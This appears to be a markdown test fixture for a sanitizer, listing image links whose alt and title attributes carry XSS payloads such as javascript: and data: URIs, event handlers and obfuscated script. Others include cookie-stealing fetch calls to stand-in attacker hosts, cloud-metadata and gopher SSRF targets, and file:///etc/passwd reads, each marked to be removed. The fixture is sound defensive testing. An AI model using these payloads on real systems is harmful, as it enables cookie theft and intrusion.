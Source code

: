 # Attribute Injection Bypasses - Testing Complete Attribute Removal

## JavaScript in title attributes (should be completely removed)
![safe](https://evil.com/image.jpg "javascript:alert(document.domain)")
![safe](https://attacker.com/evil.jpg "javascript:alert(window.location)")  
![safe](https://malicious.com/payload.jpg "javascript:eval(atob(YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ))")
![safe](https://evil.com/steal.jpg "javascript:fetch(//attacker.com)")

## Data URIs in title attributes (should be completely removed)
![safe](https://evil.com/image.jpg "data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg")
![safe](https://attacker.com/evil.jpg "data:text/javascript;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ")
![safe](https://malicious.com/payload.jpg "data:application/javascript,alert(1)")

## Event handlers in alt attributes (should be completely removed)
![javascript:alert(document.cookie)](https://evil.com/steal-cookies.jpg)
![onload:alert(document.domain)](https://attacker.com/domain-leak.jpg)
![onclick:fetch(//attacker.com)](https://evil.com/click-track.jpg)
![onerror:eval(atob(payload))](https://malicious.com/eval-payload.jpg)

## Unicode script characters in attributes (should be completely removed)
![𝒿𝒶𝓋𝒶𝓈𝒸𝓇𝒾𝓅𝓉:𝒶𝓁𝑒𝓇𝓉(𝒹𝑜𝒸𝓊𝓂𝑒𝓃𝓉.𝒹𝑜𝓂𝒶𝒾𝓃)](https://evil.com/image.jpg "𝒿𝒶𝓋𝒶𝓈𝒸𝓇𝒾𝓅𝓉:𝒶𝓁𝑒𝓇𝓉(𝒹𝑜𝒸𝓊𝓂𝑒𝓃𝓉.𝒹𝑜𝓂𝒶𝒾𝓃)")
![𝓳𝓪𝓿𝓪𝓼𝓬𝓻𝓲𝓹𝓽:𝓮𝓿𝓪𝓵(𝓪𝓽𝓸𝓫(𝓹𝓪𝔂𝓵𝓸𝓪𝓭))](https://evil.com/image.jpg)

## Backticks in title for template literals (should be completely removed)
![safe](https://evil.com/image.jpg "`${alert(1)}`")
![safe](https://evil.com/image.jpg "`${document.domain}`")
![safe](https://evil.com/image.jpg "`${fetch(//evil.com)}`")
![safe](https://evil.com/image.jpg "`${eval(payload)}`")

## Control characters that should be completely removed
![javascript\x00:alert(1)](https://evil.com/image.jpg "javascript\x00:alert(1)")
![javascript\x09:alert(1)](https://evil.com/image.jpg "javascript\x09:alert(1)")
![javascript\x0A:alert(1)](https://evil.com/image.jpg "javascript\x0A:alert(1)")
![javascript\x0D:alert(1)](https://evil.com/image.jpg "javascript\x0D:alert(1)")

## Mixed dangerous content (should be completely removed)
![<script>alert(xss)</script>](https://evil.com/image.jpg "<script>alert(title-xss)</script>")
![onclick=alert(1) onerror=fetch(evil)](https://evil.com/image.jpg "onload=alert(2) src=javascript:alert(3)")
![&lt;img src=x onerror=alert(4)&gt;](https://evil.com/image.jpg "&lt;iframe src=javascript:alert(5)&gt;")

## Various protocols in attributes (should be completely removed)
![ftp://attacker.com/payload](https://evil.com/image.jpg "ftp://attacker.com/payload")
![mailto:victim@evil.com](https://evil.com/image.jpg "mailto:victim@evil.com")
![tel:+1234567890](https://evil.com/image.jpg "tel:+1234567890")
![stun:attacker.com:3478](https://evil.com/image.jpg "stun:attacker.com:3478")

## Base64 encoded payloads (should be completely removed)
![base64:PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg](https://evil.com/image.jpg "javascript:eval(atob(PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg))")
![payload](https://evil.com/image.jpg "data:text/html,base64:PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg")

## Network exfiltration attempts (should be completely removed)
![safe](https://evil.com/image.jpg "http://localhost:8080/admin")
![safe](https://evil.com/image.jpg "http://169.254.169.254/metadata")
![safe](https://evil.com/image.jpg "gopher://127.0.0.1:6379/_info")

## Mixed character set exploitation (should be completely removed)
![javascript:alert(привет)](https://evil.com/image.jpg "javascript:alert(こんにちは)")
![javascript:alert(🚨payload🚨)](https://evil.com/image.jpg "javascript:alert(💀danger💀)")
![javascript:alert(אלרט)](https://evil.com/image.jpg "javascript:alert(تنبيه)")

## File system access attempts (should be completely removed)
![safe](https://evil.com/image.jpg "file:///etc/passwd")
![safe](https://evil.com/image.jpg "file:///proc/self/environ")
![safe](https://evil.com/image.jpg "file:///windows/system32/drivers/etc/hosts")

## Alternative quote characters (should be completely removed)
![safe](https://evil.com/image.jpg "javascript:alert(‚payload‛)")
![safe](https://evil.com/image.jpg "javascript:alert(„payload")")
![safe](https://evil.com/image.jpg "javascript:alert(‹payload›)")
![safe](https://evil.com/image.jpg "javascript:alert(«payload»)")

## Complex function calls (should be completely removed)
![alert(document.domain)](https://evil.com/image.jpg "fetch(//attacker.com/steal?data=document.cookie)")
![eval(atob(payload))](https://evil.com/image.jpg "setTimeout(alert,100)")
![Function(payload)()](https://evil.com/image.jpg "setInterval(leak,1000)")

## Semicolon-separated payloads (should be completely removed)
![payload1;payload2](https://evil.com/image.jpg "javascript:alert(1);fetch(//evil.com)")
![safe](https://evil.com/image.jpg "data:text/html,payload1;payload2")
![safe](https://evil.com/image.jpg "javascript:void(0);alert(document.domain)")

## Protocol handlers and custom schemes (should be completely removed)
![safe](https://evil.com/image.jpg "intent://payload")
![safe](https://evil.com/image.jpg "itms://payload")
![safe](https://evil.com/image.jpg "market://payload")
![safe](https://evil.com/image.jpg "app://payload")
![safe](https://evil.com/image.jpg "custom-protocol://payload")